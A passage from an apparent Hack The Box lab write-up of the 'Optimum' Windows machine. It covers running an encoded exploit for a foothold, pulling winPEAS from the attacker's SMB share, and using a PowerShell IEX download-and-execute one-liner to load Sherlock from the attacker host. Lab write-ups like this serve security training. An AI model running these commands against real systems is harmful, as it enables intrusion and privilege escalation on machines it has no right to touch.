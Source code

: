 The command is encoded helping us to keep the victim machine from noticing.

In this exploit only we need to change the lhost, lport and rhost, rport and run it.

![Untitled](/HTB/optimum-4.png)

## Gaining an Initial Foothold

Once executed we have successfully engaged the user.

Let’s cat the **user’s flag**.

![Untitled](/HTB/optimum-5.png)

## Escalating Privilege

Now let’s see more information about the system with winPEAS. We can send it via a smb server.

```powershell
smbserver.py smbFolder $(pwd) -smb2support
```

Only lefts copy it with:

```powershell
copy \\10.10.14.20\smbFolder\winPEASx64.exe .
```

Once executed we have the next valuable information.

```powershell
		Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```

Now let’s take a look if this system has some common windows vulns to privesc. Normally I start with Watson but the minimum .NET version required by Watson in winPEAS is 4.5, and this host only has up to 4.0, so I am going to start with Sherlock.

First let's open a web server to load the script.

```python
python3 -m http.server 80
```

Now let’s load the script with powershell.

```powershell
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.20/Sherlock.ps1')
```

We can start the scan with `Find-AllVulns`
